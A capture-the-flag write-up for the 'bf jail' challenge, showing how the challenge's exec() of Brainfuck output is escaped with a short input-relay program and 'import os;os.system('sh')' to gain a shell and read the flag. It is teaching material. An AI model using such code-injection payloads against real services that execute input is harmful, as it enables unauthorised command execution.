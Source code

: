 <details>
<summary>++++++++++[.,]</summary>

# bf jail write-up (WWCTF 2025)

**Name:** bf jail

**Description:**
> Jail but with my best friend? That doesn't sound too bad. Oh wait...

**Type:** Miscellaneous / Brainf\*ck / Code Golf

**Points:** 127

**Author:** dfoo

**File:** [chall.py](/bf%20jail/chall.py)

## Analysis

Check the code:
```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output
...
```
Ok it's just brainf\*ck parser, keep reading:
```python
...
if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```
Hmm, so it's golfing with brainf\*ck. It's also friendly enough to run whatever our brainf\*ck code spits out - that's promising, just get the code to generate `import os;os.system('sh')` and we get the shell.

## Attempts to solve

### 0. Golfing

Get a generator to convert the string above into brainf\*ck, and perform all the necessary cancellations and optimizations possible.

However, I'm new to golfing with brainf\*ck and ~am a lazy a\*\*~ don't want to [learn it](https://codegolf.stackexchange.com/questions/12973/tips-for-golfing-in-brainfuck) on the fly, so I need to find an easier way out.

### 1. Input

Look at the parser more carefully:
```python
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
```
That's helpful - we're allowed to enter stuff ourselves! Just get a piece of basic brainf\*ck code to relay our input to output and we're done:
```brainfuck
+[,.]
```
`+` increase the data pointer to 1 to enter the loop. The loop is kept open as long as the character has an ASCII code greater than 0 (i.e. not a null byte). We can then enter whatever we want and finish with a null byte:
```
$ nc chal.wwctf.com 6002
> +[,.]
import os 
os.system('sh')
^@
Traceback (most recent call last):
  File "/app/run", line 53, in <module>
    exec(code)
ValueError: source code string cannot contain null bytes
```
It even support multiline code now, and...

Oh... the null byte is going to enter the string too. Gotta fix that now.

### 2. Not letting the null byte in

The simplest fix is to swap `,` and `.` so the entered character is tested by `[` first. The downside is that whatever is before `[` will get put in as the first character. The first character we want is `i` with ASCII code 105, so...
```
$ nc chal.wwctf.com 6002
> +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++[.,]
mport os
os.system('sh')
^@
echo Voilà!  # input
Voilà!
```
We have the shell now.

### 3. Optimize the solution

The above works, but it is:
- ugly: the first character always gets left out
- not general: if we want to change the first character (if we ever want to do this), we have to count the number of `+`s again

Then suddenly, I had a spark in my mind: `\n` is a valid Python code! The brainf\*ck code then greatly simplifies:
```brainfuck
++++++++++[.,]
```
`++++++++++` sets the data pointer to 10 (the ASCII code of `\n`), the first execution of `.` then puts down a `\n`, and the loop executes until a null byte is entered, which is discarded. With this, we finally have

## The solution
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
import os
os.system('sh')
^@
ls  # input
flag.txt
run
cat flag.txt  # input
wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}
```
I really liked this solution. You can now run Python code as it is from a file:
```
$ nc chal.wwctf.com 6002
> ++++++++++[.,]
while True:
    print(input('> ').replace('I', 'you')
                     .replace('my', 'your')
                     .replace('am', 'are'))
^@
> 
> What am I doing with my life
What are you doing with your life
> bruh
bruh
> 
```

---
<details>
<summary>Afterword</summary>

As the author @dfoo said in the Discord chat, the uploaded version of the challenge was unfortunately the wrong version. The correct version should also blacklist `,` and certain keywords, forcing the players to golf `import os;os.system('sh')` in brainf\*ck. I feel a bit sorry about this, but hey, that's all the fun isn't it? 😉

As [@maximxlss](https://github.com/maximxlss) pointed out, the idea in [stage 1](#1-input) will work with some simple nested brackets:
```brainfuck
+[,[.>]<]
```
This ended up even shorter than my final solution, and really captures the original spirit of the challenge even in this wrong version. I greatly appreciate the elegance of this solution, so I relayed it here.

That being said, my monke brain would not have worked that out during the event 🤪
</details>
</details>

